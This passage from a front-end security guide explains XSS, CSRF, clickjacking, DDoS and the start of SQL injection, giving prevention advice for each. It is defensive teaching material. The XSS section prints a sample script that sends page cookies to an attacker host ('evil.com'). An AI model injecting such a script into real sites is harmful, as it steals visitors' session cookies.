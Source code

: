 ## Front-End Security Threats and Prevention Measures

### XSS (Cross-Site Scripting)
XSS attacks occur when an attacker injects malicious JavaScript code into a web application's output. The injected code executes within the victim's browser when they visit the compromised web page.

**Example:** An attacker could embed a script in a comment on a blog that sends the cookies of anyone viewing the comment to the attacker. This script might look something like `<script>fetch('http://evil.com/steal?cookie=' + document.cookie)</script>`.

**Prevention:** Ensure the encoding or escaping of user input on both the front-end and back-end. For example, convert `<` to `&lt;` and `>` to `&gt;`. Modern JavaScript frameworks like React automatically escape HTML to safeguard against XSS, significantly reducing the risk.

### CSRF (Cross-Site Request Forgery)
In CSRF attacks, attackers trick users into executing unwanted actions on a web application where they're authenticated, leveraging the user's identity.

**Example:** An attacker sends an email with a link to a malicious website. When the logged-in user clicks the link, the malicious site sends a request to a banking application to transfer money, exploiting the user's authenticated session.

**Prevention:** Employ anti-CSRF tokens and set the `SameSite` attribute for cookies to `strict` to prevent cross-site request forgery. Limiting CORS (Cross-Origin Resource Sharing) and utilizing authentication mechanisms also bolster security.

### Clickjacking
Clickjacking tricks users into clicking on something different from what the user perceives, often by embedding a page as a transparent iframe.

**Example:** An attacker places a transparent iframe over a button on a legitimate website. The user thinks they are clicking the legitimate button, but they are actually clicking a button within the iframe, potentially revealing sensitive information or agreeing to a malicious action.

**Prevention:** To prevent clickjacking, ensure that your website does not allow itself to be embedded in an iframe on another site by setting the `X-Frame-Options` header to `SAMEORIGIN`. Also, verify that `window.top.location.hostname` is the same as `window.location.hostname`; if not, redirect the user appropriately.

### DDoS (Distributed Denial of Service)
DDoS attacks flood a server with numerous requests to exhaust resources and bandwidth, rendering the service unavailable to legitimate users.

**Example:** A group of compromised computers (botnet) is used to flood an e-commerce site with so much traffic that legitimate customers cannot access the site during a major sale event.

**Prevention:** DDoS protection is challenging to implement at the software level alone; employing cloud-based DDoS protection services or Web Application Firewalls (WAF) can help mitigate these attacks.

### SQL Injection
SQL Injection attacks occur when an attacker is able to insert or "inject" a SQL query via the input data from the client to the application.
